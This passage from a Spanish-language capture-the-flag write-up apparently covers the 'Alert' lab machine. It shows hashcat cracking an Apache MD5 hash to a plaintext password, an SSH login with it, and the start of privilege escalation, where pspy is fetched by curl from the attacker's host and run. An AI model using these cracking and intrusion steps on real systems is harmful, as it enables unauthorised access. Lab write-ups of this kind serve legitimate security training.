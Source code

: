 Usamos la opción `-m` para que nos diga el modo de hashcat para poder crackearla, en este caso el `1600`, parece estar en un formato `Apache MD5`. 

Procedamos a crackearla con hashcat y el diccionario `rockyou.txt`:

```bash
$ hashcat -m 1600 hash_alberto.txt /usr/share/wordlists/rockyou.txt.gz

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited    
```

Podemos ver cómo hashcat nos ha crackeado la contraseña, la cual es `manchesterunited`.

Intentemos usar esas credenciales para loguearnos con ssh en la máquina víctima.

```bash
$ ssh albert@alert.htb

albert@alert:~$ whoami
albert
```

Podemos ver que podemos, y ya estamos dentro, tenemos la flag del usuario de nuestro directorio HOME (`/home/albert/`).

## ESCALADA DE PRIVILEGIOS

Ahora tenemos que escalar privilegios. Empezemos viendo a qué grupos pertenecemos.

```bash
albert@alert:~$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```

Pertenecemos al grupo `management`, lo cual será crucial para esta escalada de privilegios. Descarguemos el binario precompilado de la herramienta `pspy` para detectar si hay alguna tarea cron que ejecute root que pueda interesarnos.

Alojando la herramienta en nuestra máquina atacante, podemos pasarla mediante `scp`, pero yo he preferido pasarlo mediante el servidor web de python previamente levantado, en el que justamente se encontraba la herramienta.

```bash
albert@alert:~$ curl http://10.10.14.221:8000/pspy64 > pspy64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 3032k  100 3032k    0     0  13.3M      0 --:--:-- --:--:-- --:--:-- 13.3M
```

Le damos permisos y lo ejecutamos:

```bash
albert@alert:~$ chmod +x pspy64 && ./pspy64
```

![alert]({{"/assets/images/alert11.png"}})

Podemos ver con la herramienta que el usuario root (sabemos que se ejecuta como root dado a que el UID=0), ejecuta el script `/opt/website-monitor/monitor.php`, al cual si le echamos un vistazo vemos lo siguiente:

